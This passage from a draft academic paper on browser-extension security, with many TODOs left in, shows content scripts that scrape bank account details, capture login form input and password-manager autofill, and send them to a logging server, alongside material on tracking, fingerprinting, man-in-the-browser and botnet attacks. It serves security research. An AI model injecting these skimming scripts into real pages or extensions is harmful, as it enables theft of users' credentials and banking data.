if(window.location.href === "https://localhost:3001/bank") {
  var data = [];
  $('tbody > tr').each(function(i) {
    var td_elements = $(this).children('td');
    data.push('account' + i + '=' + td_elements.eq(0).text());
    data.push('iban'    + i + '=' + td_elements.eq(1).text());
    data.push('balance' + i + '=' + td_elements.eq(2).text());
  });
  send(data.join('&'));
}
	\end{lstlisting}
	
	We start by comparing the current web page's URL to the URL of our targeted bank web page. We declare an array to store the extracted information. The jQuery call on line 3 selects each table row (tr) inside the table's body (tbody) and executes the anonymous function between line 3 and 7. On line 4, we select all table cells (td) inside the current row. We know exactly in which column what value is stored: In the first column is the account's name, in the second the account's IBAN, and in the third the current balance. Therefore, we extract the values inside these cells on line 5, 6, and 7. We store the values inside our array in the URL parameter notation and add the current table row's index as an identifier for account information that belong together. Finally on line 9, we connect the values inside the data array with an "\&" to comply to the URL notation and forward the extracted data to our send method. \\
	
	As we tested our extension, our server output server received the following URL: \\
	\url{https://localhost:3001/log?account0=Giro\&iban0=DE12%204122%203321%204212%207664%2098&balance0=432,03%20EUR&account1=Daily%20Alloance&iban1=DE32%202313%200429%203532%203466%2031&balance1=10.023,42%20EUR&url=https%3A%2F%2Flocalhost%3A3001%2Fbank} 
	\\
		
	And extracted following values: 
	
	\begin{tabular}{l@{\hspace{1em}:\hspace{3em}}l}
		account0 & Giro \\
		iban0 & DE12 4122 3321 4212 7664 98 \\
		balance0 & 432,03 EUR \\
		account1 & Daily Allowance \\
		iban1 & DE32 2313 0429 3532 3466 31 \\
		balance1 & 10.023,42 EUR \\
		url & https://localhost:3001/bank \\
	\end{tabular} \\
	
	As mentioned before, finding elements in the web page is non-trivial. We implemented our script to exactly match our example bank web page. Small changes on the web page's HTML source code may break our code. For example, if we add a further column to the table between \textit{Account} and \textit{IBAN} such as the date of the last transaction, our content script will no longer extract the account's balance. \\
	
	\begin{figure}[hb]
		
\includegraphics[scale=0.3]{lib/bank.png}
		\caption[Example bank web page]{The example bank web page which we used for our extension to steal sensitive information from.}		
		\lstinputlisting{lib/bank.html}
		\caption[Example bank web page as HTML]{The HTML source code of our example bank web page.}
	\end{figure}
	
\subsubsection{Steal Data From Web Forms}
	
	Many websites request sensitive information from their users for legitimate purpose. The website provides a form embedded inside a web page in which the user enters his information and then returns it back to the website's server. A typical web-form consists of a \textit{form} element that holds several \textit{input} elements and a submit button to transmit the data. The perhaps most used type is the form that is used for authenticate a user at a website. These login form typically consist of two input fields for username and password. Figure 3 shows an example of such a login form. We implemented a content script to steal the information that the user enters into our example login web page: \\
	
	\begin{lstlisting}
$('form').submit(function(event) {
  var username = $('input[type="text"]').val();
  var password = $('input[type="password"]').val();
  var url_encoding = "username=" + username + "&password=" + password;
  send(url_encoding);
});
	\end{lstlisting}
	
	First, we search for all form elements and add an event to each which is triggered when the form is submitted. In our case, we find one form element which is submitted when the "Login" button is pushed. On line two, we search for input elements of type text. Our web page has only one element that matches this selector, namely the input field for the username. Similar, we locate the input element of type password on line three. We convert both values to an string in URL parameter notation and forward it to our \texttt{send()} method. \\
	
	This content script has the same flaws as the script which we have implemented to steal the information from the example bank web page. It is adapted to our example login page. Small changes on the web page's HTML source code may break our script. For example, if we add another input element of type text above the username field, our script will locate both elements, concatenate their values, and forward the result as username. We could not differentiate between the text from the new input field and the actual username. \\
	
	Writing a concrete content script for each web page is inefficient. It raises the amount of work we have to do examining the structure of every targeted web page and writing adapted scripts. We also have to identify the current web page and inject the corresponding content script. If we simply inject all scripts in every web page, it will result in a heap of unwanted data because we can not foresee which content script extracts data from the current web page. Therefore, we implemented a more general content script to steal the form's values which works with every form. Surprisingly, our script is not only more efficient because it can be used on every web page, but it is also very compact. \\
	
	\begin{lstlisting}
$('form').submit(function(event) {
  send($(this).serialize());
});
	\end{lstlisting}
	
	Again, we start selecting all form elements on the web page and add an submit-event to each. The jQuery library lightens our workload. It provides the function \texttt{serialize()} that returns the content of a form as URL parameters. We then forward this string to our send method. \\
	
	\begin{figure}[hp]
		\begin{minipage}{0.5\textwidth}
			
\includegraphics[scale=0.4]{lib/login.png}
			\caption[Example login web page]{Example web page with a login form.}
		\end{minipage}
		\begin{minipage}{0.55\textwidth}		
			\lstinputlisting{lib/login.html}
			\caption[Example login web page as HTML]{The HTML source code of our example login web page.}
		\end{minipage}
	\end{figure}
	
	\subsubsection{Steal Data From Password Managers}
	
	Most browsers offer their user the possibility to save entered usernames and passwords within a password manager. If the user visits a login page for which the password manager has stored credentials, it inserts them automatically. We implemented a content script that waits for the password manager to fill in possible credentials and then steals them: \\
	
	\begin{lstlisting}
setTimeout(function() {
  var form = $('input[type="password"').closest('form');
  if(form.length > 0) {
    send(form.serialize());
  }
}, 500);
	\end{lstlisting}
	
	We use \texttt{setTimeout} to delay the execution of our functionality for 500 milliseconds to give the password manager the time to fill in the credentials. On line 2, we search for an input element of type password and select the closest form element in the DOM tree which is the login form. With the condition on the next line, we check if a form was found and in that case we forward the URL-encoded form to our send method. \\
	
	Lujo Bauer et al. described extended attacks that open predefined login pages and steal possible credentials from the password manager \cite{extensions:cns14}. Their attacks use different strategies to hide the opened pages from the user. 
	\begin{itemize}
		\itemsep0em
		\item Open the page in a inactive tab and reload the original page after the attack was performed. 
		\item Open the page in a new tab within a window that is currently not in the foreground.
		\item Add an invisible iframe to a web page and load the targeted page in it. This strategy needs the content script option \textit{all\_frames} with which a content script executes in iframes. 
	\end{itemize}
	We implemented these strategies but none of them works in Chrome or Opera. After the password manager has filled in the user's credentials, the value in the password field is not available to JavaScript before any user interaction with the web page has happened. It first looked like a bug, but it is an intended security feature \cite{chromiumBlogPasswordInput}. 
	
	% TODO maybe implement real life extensions that read facebook chat or emails
	
\subsection{User Tracking}
	
	User tracking refers to the linking of multiple web pages that were visited by the same user, thus allowing to follow the path a user has taken from website to website. User tracking is known to harm the user's privacy and to counter attempts to stay anonymous when browsing in the Internet. %TODO cite 
	But there are also benign reasons for user tracking, for instance improving the usability of a website based on collected information. \\ 
	
	Advertising is the main reason for user tracking. Companies pay large amounts of money to display advertisements for the purpose of increasing their sales volume. Without knowledge about the consumer's interest, a company can not advertise a particular product with success. A consumer is more likely to buy a product - what the goal of advertising is - that fits his needs. Therefore, companies want to collect information's about the consumer and his interests. Given, that more and more consumer use the Internet nowadays, companies focus on websites as advertising medium. The collection and evaluation of a website's user data gives advertising companies the chance to personalize their advertisements. They can display advertisements on websites that with a high degree of probability match the current user's needs. Because this advertising strategy increases their profit, companies pay more money to website's that provide their user data for personalized advertising. Large companies such as Google or Facebook use targeted advertising as their business model. They act as middle man between advertiser and website hosts and provide large advertising networks. Other websites may embed advertisements from those networks which frees them from investing in user tracking and hosting their own servers for advertising. In addition, small websites without a monetization strategy may use embedded advertisements to continue to offer their services for free and still avoid a financial loss. \\
	
	A reason why the displaying of advertisements may be dangerous for a user was researched by Xinyu Xing et al. analyzed Chrome extensions focused on the distribution of malware through the injection of advertisements \cite{Xing:2015:UMT:2736277.2741630}. They analyzed 18,000 extensions and detected that 56 of 292 extensions which inject advertisements also inject malware into web pages. %TODO 
	\\
	
	Another area for which user tracking is used are web analytics. User data and web traffic is measured, collected, and analyzed to improve web usage. Targeted data is primarily the user's interaction with and movement through the website such as how long a web page is visited, how the user enters and leaves the website, or with which functionality he has trouble. On the basis of these information the website's developer can improve a web page's performance and usability. If used for a vending platform, these information can also be used to coordinate for example sale campaigns. \\
	
	The tracking of a user is often accomplished by storing an identifier on the user's system the first time the user visits a tracking website. Reading out the identifier from another website allows to create a tracking profile for the user. In the following passage we describe several methods used for user tracking. \\
	
	\begin{itemize}
		\item \textbf{Tracking Cookies} The first used web technology used to track users were HTTP cookies. Shortly after the introduction of cookies, first third-party vendors were observed that used cookies to track users between different web pages. If a user visits a web page that includes a resource from the tracking third-party, a cookie is fetched together with the requested resource and acts as an identifier for the user. When the user now visits a second web page that again includes some resource from the third-party, the stored cookie is send along with the request for the third-party's resource. The third-party vendor has now successfully tracked the user between two different web pages.  
		
		\item \textbf{Local Shared Objects} Flash player use a technique similar to cookies to synchronize data between different browser sessions. The data is locally stored on the user's system by websites that use flash. Flash cookies as tracking mechanism have the advantage that they track the user behind different browsers and they can store up to 100KB whereas HTTP cookies can only store 4KB. Before 2011, local shared objects could not easily be deleted from within the browser because browser plugins hold the responsibility for their own data. In 2011 a new API\footnote{https://wiki.mozilla.org/NPAPI:ClearPrivacyData} was published that simplifies this mechanism. 
		
		\item \textbf{Evercookies} Evercookie is a JavaScript framework implemented to produce persistent identifiers in a browser that are difficult to remove \cite{evercookie}. Therefore, it uses multiple storage technologies such as HTTP and Flash cookies, HTML5 storages, web history and cache, and unusual techniques such as storing the identifier in RGB values of cached graphics. To hamper the removing from a browser, it recreates deleted identifiers as soon as the user visit a web site that uses the framework. The user has to delete every stored identifier to remove the evercookie completely. 
		
		\item \texttt{Web Beacon} A web beacon is a remote loaded object that is embedded into an HTML document usually a web page or an email. It reveals that the document was loaded. Common used beacons are small and transparent images, usually one pixel in size. If the browser fetches the image it sends a request to the image's server and also sends possible tracking cookies along. This allows websites to track their user on other sites or gives the email's sender the confirmation that his email was read. A good example is Facebook's "like" button or similar content from social media websites. Those websites are interested into what other pages their users visit. The "like" button reveals this without the need to be invoked by the user. 
	\end{itemize}
	
	Previously described methods for tracking a user identify him based on some data which was intentionally stored on the user's system. Those stored identifiers are vulnerable to deletion by the user. A study from 2010 showed that a browser reveals many browser- and computer-specific information to web pages \cite{Eckersley:2010:UYW:1881151.1881152}. These information are collected and merged to create an unique fingerprint of the currently used browser. Collection the same information on another web page and comparing them to stored fingerprints, makes it possible to track and identify the current user without the need to store an identifier on the user's computer. Theoretically, it is possible to identify every person on earth with a fingerprint in the size of approximately 33 bit. Currently eight billion people live on our planet. Using 33 bit of different information we could identify $2^{33}=8,589,934,592$ people. But the same kind of information taken from different users will probably equal. Therefore, it is necessary to collect as much information as possible to create an unique fingerprint. \\
	
	The technique of fingerprinting is an increasingly common practice nowadays which is mostly used by advertising companies and anti-fraud systems. It gives the opportunity to draw a more precise picture of a user. This is supported by the increasing use of mobile devices which provides information about the user's location. Furthermore, analyzing visited web pages and search queries give access to the user's hobbies and personal preferences. Advertising companies focus mainly on the user's personal information to display even more precisely adapted advertisements. Whereas, anti-fraud systems use the identification of the currently used devices to detect possible login tries with stolen credentials. If someone tries to log in to an account, the anti-fraud system compares the fingerprint of the currently used device with stored fingerprints for that account. If the fingerprint does not match, the user either uses a new device or someone unknown got access to the user's credentials. \\
	
	Fingerprinting is known to harm privacy even more than simple tracking, because many personal information are gathered and stored. People fear that everything they do on the Internet is stored and may be used to harm them. This may become reality. Many politicians discuss about a data preservation to fight terrorism and criminals. 
	
	For example may a health insurance increase contributions because the insurant often books journeys to countries with a higher risk of an injection or a worker is accused to reveal company secretes because he often communicates with a friend who works for the competition and fired as a result. \\
	
	
	
	% usage of mobile devices increases => devide tracking, location tracking
	% anti-fraud, identify account access with stolen credentials, identify current user and compare to stored information connected to username
	% fingerprinting + tracking => more data, 
	% collected personal data (hobbys, preferences, health status) from visited websites, search queries
	% people fear everything they do on the Internet is stored, data preservation
	% worst case szenarios: health insurance increase contributions because insurant often bookes journeys to dangerous areas or does extreme sports, boss fires user because user often communicates with a friend that works for the competition accuses him to reveal comany secretes
	% positive szenarios: identification of terrorists, tracking of criminals
	
	There exists numerous scientific papers about fingerprinting techniques \cite{paulstone_historysniffing, MBYS11, Nikiforakis:2013:CME:2497621.2498133, Eckersley:2010:UYW:1881151.1881152, MS12, olejnik:hal-00747841}. Because detailed descriptions are off topic for our paper, we focus on a brief description of popular methods. 
	
	\begin{itemize}
		\item \textbf{Browser Fingerprinting} The browser provides a variety of specific information to a web page that can be used to generate a fingerprint of the user's browser. The following list shows examples of fingerprinting properties and how to access them using JavaScript. 
		
		\renewcommand{\arraystretch}{1.2}
		\begin{tabular}{|l|l|p{0.47\textwidth}|}
			\hline
			\textbf{Property} & \textbf{JavaScript API} & \textbf{Example Output} \\
			\hline
			System & \texttt{navigator.platform} & "Win32" \\ \hline
			Browser Name & \texttt{navigator.userAgent} & "Mozilla/5.0 (Windows NT 10.0; WOW64; rv:44.0) Gecko/20100101 Firefox/44.0" \\ \hline
			Browser Engine & \texttt{navigator.appName} & "Netscape" \\ \hline
			Screen Resolution & \texttt{screen.width} & 1366 (pixels) \\
			& \texttt{screen.height} & 768 (pixels) \\
			& \texttt{screen.pixelDepth} & 24 (byte per pixel) \\ \hline
			Timezone & \texttt{Date.getTimezoneOffset()} & -60 (equals UTC+1) \\ \hline
			Browser Language & \texttt{navigator.language} & "de" \\ \hline
			System Languages & \texttt{navigator.languages} & ["de", "en-US", "en"] \\ \hline
		\end{tabular}
		
		\item \textbf{Fonts} The list of fonts available to a web page can serve as part of a user identification. The browser plugin Flash provides an API that returns a list of fonts installed on the current system. As per current scientific works, the order of the fonts list is stable and machine-specific. %TODO cite
		If the Flash plugin is not available in a browser, JavaScript can be used to test whether particular fonts are installed or not. This approach needs a predefined list and may not cover unpopular fonts. It is implemented by writing a string with each font on the web page. If a font is not installed, the browser uses a fall-back font to draw the text. Comparing the width and hight of the drawn font to those of the fall-back font gives an evidence about the font being installed. 
		
		\item \textbf{History Sniffing} Reading out the user's web history can not only serve as fingerprinting method but also to simplify user tracking. The attacker  An outdated approach to test if a user has visited a particular web page was to use the browser's feature to display links to visited web pages in a different color. A web site would hidden from the user add a list of URLs to a web page as link elements and determinate the displayed color. Nowadays, link elements that were queried by JavaScript calls behave like unvisited links fixing the tread from this sniffing attack. A current approach detects the redrawing of link elements to determine if the underlying web page was visited before \cite{paulstone_historysniffing}. If a link is drawn the first time, it is drawn as an unvisited link and simultaneously a query to the browser's web history database is send. When the query returns that the web page behind the link was visited before, it redraws the link element. This event can be captured giving the desired evidence.
		
		\item \textbf{JavaScript Benchmark Testing} The execution speed of a JavaScript engine depends on the implementation but also on the systems processor architecture and clock
		speed. Keaton Mowery et al. implemented a set of benchmark test suits to fingerprint different execution speeds \cite{MBYS11}. Using these information, they could distinguish between major browser versions, operating systems and micro architectures. 
	\end{itemize}
	
\subsubsection{Extension As Identifier Storage}
	
	An extension is able to store information between browser sessions. Chrome even provides a cloud based storage that is automatically synced if the user uses Chrome with his Google account. This mechanism may be used to provide an additional storage for identifiers. To receive and return the identifiers from and to a web page, we adopt the \texttt{window.postMessage()} method which allows our content script to communicate with the current web page. We implemented an extension that waits for a web page to send a  message with a new identifier and returns all currently stored identifiers. Our extension needs the \texttt{storage} permission to access the local or if we use Chrome the cloud storage and a single content script that matches \texttt{"http://*/*"} and \texttt{"https://*/*"}. The content script has the following source code: \\
	
	\begin{lstlisting}
window.addEventListener('message', function(event) {
  if(event.data.identifier) {
    chrome.storage.sync.get('identifiers', function(result) {
      var identifiers = result.identifiers !== undefined ? result.identifiers : {};
      window.postMessage({'identifiers' : identifiers }, '*');
      identifiers[event.data.identifier] = true;
      chrome.storage.sync.set({'identifiers' : identifiers});
    });
  }
}, false);
	\end{lstlisting}
	
	We start with adding an event listener for the \texttt{message} event. This event is triggered if the method \texttt{window.postMessage()} is called. To identify messages that are addressed to us, we check on line 2 if the \texttt{identifier} key is present in the data object of the event. If this condition is met, we will retrieve the already stored identifiers from the storage API. On line 4, we check if the list of identifiers already exists and create it if not. Then, we return the list to the web page with the postMessage method. Finally on line 6 and 7 we add the new identifier to our list and store the list. \\
	
	Because this communication channel is our own implementation we can not test it on existing web sites. Therefore, we implemented our own web page with the following JavaScript attached: \\
	
	\begin{lstlisting}
var newIdentifier = '#{newIdentifier}';
var oldIdentifier = '#{oldIdentifier}';

window.addEventListener('message', function(event) {
  if(event.data.identifiers && event.data.identifiers[oldIdentifier] === true) {
    alert('old identifier received');
  }
}, false);
window.postMessage({ 'identifier' : newIdentifier }, '*');
	\end{lstlisting}
	
	This JavaScript code is taken from the template of our web page. Our server replaces \texttt{\#\{newIdentifier\}} and \texttt{\#\{oldIdentifier\}} with actual values. The purpose of this script is to store the new identifier at the user's browser and to check if the old identifier was stored at an earlier date. On line 4, we again use an event listener to react if another script calls \texttt{window.postMessage()}. We identify the call from our content script by checking that the key \texttt{identifiers} was sent along the event. On the same line, we check if the old identifier is stored inside the list of identifiers. In that case, we successfully tracked a user between two calls of our web page. Finally, we post a message ourself to propagate the new identifier to our content script. \\
	
\subsubsection{Extension As Web Beacon}
	
	A web beacon notifies a third party that a specific web page was accessed. It fetches a resource from the server and sends possible tracking cookies along the request. We implemented an extension that embeds an invisible iframe element in every visited web page. The iframe loads an empty web page from our server along with a tracking cookie. The second time our content script is executed, the tracking cookie will be sent back to our server with the request from the iframe. The extension needs a single content script with the matching attributes \texttt{"http://*/*"} and \texttt{"https://*/*"} and no further permissions.
	
	\begin{lstlisting}
var iframe = document.createElement('iframe');
iframe.setAttribute('src', 'https://localhost:3001/tracking/beacon');
iframe.setAttribute('style', 'display: none;');
document.body.appendChild(iframe);
	\end{lstlisting}
	
	We create a new \texttt{iframe} element, set it's \texttt{src} attribute to the address of our web beacon server, set it's \texttt{style} attribute to hide if and finally append the iframe to the web page. 
	
\subsubsection{Key Logger}
	
	JavaScript enables us to register events for every interaction the user has with the current web page. This gives us the possibility to exactly observe what elements the user clicks, double clicks, or drag and drops and what text he enters in input fields. If we combine all these information, we are able to track the user on his path through the web page. 
	
	% TODO
	
\subsubsection{Additional Fingerprint Data From Extensions}
	
	The browser provides additional information to its extension which are not available for web pages. Those information may be used to generate a more accurate fingerprint of the user's browser and system. Accessing the information needs additional permissions. The following list shows provided information that may be retrieved for a fingerprint and the permissions needed to access them: \\
	
	\begin{tabular}{l|l|l}
		\textbf{Permission} & \textbf{Information} & \textbf{Example} \\ \hline
		system.cpu & Number of processor kernels & \\
		& Processor's name & Intel(R) Core(TM) i5-3210M CPU @ 2.50GHz \\
		& Processor's capabilities & "sse", "sse2", "sse3"  \\ 
		system.memory & Memory capacity & 6501200096 \\
		gcm & An unique ID for the extension instance & \\
		management & List of installed extensions & Extension ID and version \\
	\end{tabular} 
	
	We implemented an extension that fetches the described information and sends them to our remote server. The instruction how to use the API to get the listed information is shown on the developer's platform and we have previously shown how to send information to a remote server. \\
	
	%TODO maybe some more text
	
\subsubsection{History Sniffing With An Extension}
	
	%TODO
	
\subsubsection{Bypass IP Proxies}
	
	%TODO
	
\subsection{Man In The Browser}

	The Man-in-the-browser (MITB) is a browser based attack related to man-in-the-middle attack (MITM) \cite{Curran:2012:MBA:2433195.2433198}. It intercepts and alters web traffic to simulate a false environment for the user where his interactions will harm himself. \\
	
	The MITM is an attack scenario in computer cryptography against a direct communication between two parties where the attacker secretly gains access to the exchanged messages. This gives him the opportunity to either steal desired information or alter the communication. If he alters the traffic in the right way, he is able to impersonate one party and deceive the other one to think the communication is still private. To gain access to the communication channel, an MITM attacker has to use vulnerabilities in obsolete cryptography algorithm or exploits in buggy implemented soft or hardware. An MITB attack on the other hand is located inside the browser from where it intercepts in and outgoing web requests. The attack will be successful irrespective of security mechanisms because it takes place before any encryption or authentication is applied. \\
	
	An MITB attacker often manipulates the code base of a browser to perform his attacks and therefore needs access to the user's machine. A simpler realization of MITB attacks can be achieved using extensions. An extension can manipulate a web page to show false information and alter outgoing web requests without knowledge of the user. It is a part of the browser itself and therefore obviates the need to manipulate the browser's code base which also decreases the probability of discovery. \\
	
	A simple MITB attack scenario using an extension: The user logs into the online platform of his bank to perform a transaction. He enters needed information into the provided form and submits it back to the bank's server. The extension reads the outgoing web request and changes the target account and rises the transfer amount. The banking system can not recognize the manipulated request, because the communication channel is highly secured and the user was successfully identified. To review and check the transaction, the banking system sends back an receipt to the user. The extension intercepts the returning web request and changes the previously manipulated data back to its original state. The user does also not recognize the manipulation at this point. To hamper such attacks, modern banking systems use an extra verification before they execute the transaction. It often consists a piece of information which comes from an external source. For example a TAN generator calculates a values from the target account number, the transfer amount and some data stored on the user's banking card. This would prevent our attack scenario, because the value which is entered by the user will not match the value calculated on the server and the extension can not access the information on the banking card to calculate the correct value itself. \\
	
	An extension %TODO..
	
\subsection{Botnet}

	A botnet is a network consisting of multiple compromised clients which can be controlled remotely. They are mostly used to execute large scaled cyber attacks such as Distributed Denial of Service (DDoS) or spamming. In recent times, botnets are also used to harvest social media valuations such as Facebook's likes. The controller of such a botnet - also called bot master - sales these valuations to thousands and executes them with the social media accounts which are used on the compromised machines. With the same manner, the bot master can execute DDoS attacks to make a web service unavailable for the general public. This is achieved by overwhelming the server's capacities with requests. Either targeting the network and flooding it's bandwidth or the application itself using up all of the computer's CPU resources. A simple Denial of Service (DoS) attack calls the targeted web service numerous times a second from a single origin. If the attacker uses a botnet, he is able to perform the DoS attack from multiple devices simultaneously which results in an ever bigger overwhelm at the targeted server. \\
	
	Extensions may be used as a bots. They are hosted on many different computers and can execute web requests. 
	Extensions that act as a bot where previously researched for Internet Explorer, Firefox and Chrome \cite{liu2011botnet}.
	
	%TODO..
	
	%Browser extension can be used as bot's. They are hosted on many different computers and can execute web requests. A message channel is needed to command the bots to execute some task. One possible way is to let the extension fetch its command from a server. But this method can be tracked down to the person controlling the botnet who of course wants to remain unknown. A more stealthy way is to use an extension's automatically update service. The command can be added for example as a text file which will be parsed by the extension if a new update was installed. The extension can not only launch DDoS attacks but can also be used to spam emails. Therefor the extension can use the user's email account. If the user logs into his account the extension can either use send E-Mails itself over the 

%	\textbf{Send Data} It is possible to send data to any host without corresponding host permissions. To achieve this we need an injected content script in any web page. We create a new iframe element and set its \textit{src} attribute to the URL of our target server. The iframe tries to load the web page from our target server by calling the given URL with an HTTP request. The request is not restricted by host permissions because it is an iframe's purpose to load web pages from another domain. The separation between the web page loaded in the iframe and the parent web page is secured by the same origin policy. It prevents scripts to access content which is not from the same origin as the script itself. Therefore, the content script can not access the iframe's content. In conclusion, we can send out data by modifying the source URL of an iframe but we can not receive data because we are prevented by the same origin policy to access the returned content. \\
	
%	\textbf{Visited Web Sites} We can identify web pages the user visited with a single content script in any web page and no further permission. For that purpose we add a link element to the web pages DOM. We set the URL to the web page for which we want to know whether the user has already visited it. Most browser change the color of a link whose web page the user has visited. We can identify such web pages by creating a list of link elements hidden to the user and reading out their color. Of course we can implement this easier by reading out the browser's history. But to access the history we need the corresponding permission and would declare our intention. The method with the link elements would be the better choice if we want to be stealthy. But if we do not have a list against which we can test URLs, reading out the history would be the better choice. \\
	
%	\textbf{Key Logger} A key logger is a piece of software that stores the keyboard and mouse input from the user. It is implemented with minimal effort using JavaScript by adding an event to the DOM's root element. This event is triggered if the user presses a button or moves the mouse and can then store this information. \\
	
%	\textbf{Man-in-the-browser} \cite{Curran:2012:MBA:2433195.2433198} The Man-in-the-browser (MITB) is a browser based attack related to man-in-the-middle attack (MITM). The MITM is attack scenario in computer cryptography against the communication between two parties who directly communicate with each other. The attacker secretly either intercepts and possibly alters the traffic or he impersonates one party and deceives the other party who still thinks he communicates with the impersonated party. MITM has to bypass security layers such as encryption or mutual authentication to gain access to the communication channel. The attack uses either vulnerabilities in obsolete cryptography algorithm or exploits in buggy implemented soft or hardware. An MITB attack is located inside the browser from where it intercepts in and outgoing web requests. The attack will be successful irrespective of security mechanisms because it takes place before any encryption or authentication is applied. An MITB often comes in the form of a Trojan Horse that infects the browser with its code. An extension can be used because i %TODO \\
%	simple realization in extensions because an extension can intercept all in- and outgoing web requests, e.g. the webRequest module,   
%	example attack banking: user logs into banking portal, sends data for transaction, extension reads outgoing request, changes target account and the transfer amount, banking server can not recognize manipulated request, sends back receipt, extension reads ingoing web request, changes manipulated data back to original data, modern bank systems use more secure authentication methods, for example TAN generator calculates TAN from target account number and data stored on user's banking card
%	a related and simpler attack than the MITB is the boy-in-the-browser attack, it changes the proxy of the browser to perform a MITM attack, deletes itself after finishing, extension can also route all outgoing traffic over a malicious proxy 
	
%	\textbf{User Interface redress attack (Clickjacking)} \cite{paulstone_clickjacking} "hijack" user mouse input to perform cross domain attacks, load a malicious web page inside an iframe and make every element invisible except the target clickable element or make the whole iframe transparent, now put it at the top most layer in the DOM, if the user now executes mouse input it is directed to the invisible or transparent iframe without him noticing, the executed input can be navigated by positioning the target element inside the iframe either over areas on the displayed page where the user is likely to interact with or directly under the cursor, mostly target social media such as faceboke's like button, using drag and drop it is possible to run Cross-Site-Request-Forgery (csrf) attacks where a HTML form is send from a cross-origin, to prevent this a token is used that is invisibly embedded inside the form, the token is created when the form is build on the server and compared when the form is send back to the server, clickjacking can bypass this security mechanism by loading the form inside the invisible iframe and letting the user fill it with drag and drop, if the user triggers a drop event it is navigated to the invisible form input field and the attacker can manipulate the dropped content, finally a click is hijacked to submit the form, in reverse can this mechanism be used to bypass the same origin policy, if the user starts the drag he drags elements from the invisible iframe to which the displayed web page has no access due to the same origin policy, if it is now dropped on the displayed web page it can be accessed,
	
%	\textbf{Botnet} a botnet is a network consisting of multiple compromised clients, those can be controlled to execute large scaled Internet attacks such as Distributed Denial of Service (DDoS) or spamming, DDoS is a web based attack targeted to make an web service unavailable by overwhelming it with traffic, a botnet can be used to call the web service from different sources multiple times per second, the attack can either target the network and flood its bandwidth or the application itself using up all the computer's resources, the web service will be unavailable for the general public \cite{liu2011botnet}
%	Browser extension can be used as bot's. They are hosted on many different computers and can execute web requests. A message channel is needed to command the bots to execute some task. One possible way is to let the extension fetch its command from a server. But this method can be tracked down to the person controlling the botnet who of course wants to remain unknown. A more stealthy way is to use an extension's automatically update service. The command can be added for example as a text file which will be parsed by the extension if a new update was installed. The extension can not only launch DDoS attacks but can also be used to spam emails. Therefor the extension can use the user's email account. If the user logs into his account the extension can either use send E-Mails itself over the 
	
\subsection{Summary}
	
	We have shown that we can use an extension to perform and support attacks to harm the current user's privacy. Additionally, we provided ways to propagate collected information either to remote servers or to the currently visited web page. The following table summarizes our implemented attacks and lists what permissions an extension needs to execute the attack.
	
	\begin{table}[h]
		\centering
		\begin{tabular}{|l|l|} \hline
			\textbf{Attack} & \textbf{Needed Permissions} \\ \hline
			Send information to any host & Content Script \textbf{or} \texttt{"http://*/*", "https://*/*"} \textbf{or} \texttt{<all\_urls>} \\
			Exchange messages with the current web page & Content Script \\
			Steal information from the current web page & Content Script \\
			Steal user credentials & Content Script \\
			Web beacon & Content Script \\
			History Sniffing & Content Script \textbf{or} \texttt{"history"} \\ \hline
		\end{tabular}
		\caption{Summary of attacks and needed permission}
		\label{Summary of attacks and needed permission}
	\end{table}
	
\section{Extension Analysis}
	
	We analyzed popular Chrome extensions focusing on what of our previously described attacks can be launched with the extensions current permissions and content declarations. The Google Chrome Web Store does not provide the functionality to sort extension based on users. Furthermore, the shown number of users is cut if it is higher than 10,000,000. Therefore, we had to search manually through the web store and select extensions for evaluation ourself. In this section we present the results of our extension analysis. 
	
	\begin{table}
		\centering
		\begin{tabular}{|l|l|l|} \hline
			\textbf{Extension} & \textbf{Version} & \textbf{Users} \\ \hline
			Google Translate & 2.0.6 & 6,049,594 \\ 
			Unlimited Free VPN - Hola & 1.11.973 & 8,419,372 \\ \hline
		\end{tabular}
		\caption{Summary of analyzed extension}
	\end{table}
	
	
\subsection{Google Translate}
	Adds a context menu entry for the web page to translate highlighted text. Opens the Google translation page in a new tab with the selected text and its translation. Adds an pop-up to translate text inside a text field or the whole page. \\
	
	\begin{table}[h]
		\centering
		\begin{tabular}{|l|l|l|} \hline
			\textbf{Content} & \textbf{Permissions} & \textbf{CSP} \\ \hline
			non-persistent background page & activeTab & unsafe eval\\
